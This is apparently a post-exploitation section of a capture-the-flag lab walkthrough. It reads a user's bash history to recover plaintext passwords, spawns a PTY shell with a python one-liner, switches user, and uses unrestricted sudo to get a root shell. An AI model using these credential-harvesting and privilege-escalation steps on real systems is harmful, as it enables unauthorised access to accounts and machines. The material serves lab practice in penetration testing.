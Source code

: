 # Post-Exploitation

---

## Enumerate User Home Directories

We find the bash history for _JKanode_ is not cleared

```bash
$ cat .bash_history
id
whoami
ls -lah
pwd
ps aux
sshpass -p thisimypassword ssh JKanode@localhost
apt-get install sshpass
sshpass -p JZQuyIN5 ssh peter@localhost
ps -ef
top
kill -9 3747
exit


$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@red:/home/JKanode$ su peter
su peter
Password: JZQuyIN5

red% id
id
uid=1000(peter) gid=1000(peter) groups=1000(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)

```

## Check Sudo Permissions for Peter

We have unrestricted Sudo permissions which allows us to spawn a root shell.

```bash
ed% sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for peter: JZQuyIN5

Matching Defaults entries for peter on red:
    lecture=always, env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User peter may run the following commands on red:
    (ALL : ALL) ALL

red% sudo su
sudo su
➜  JKanode id
```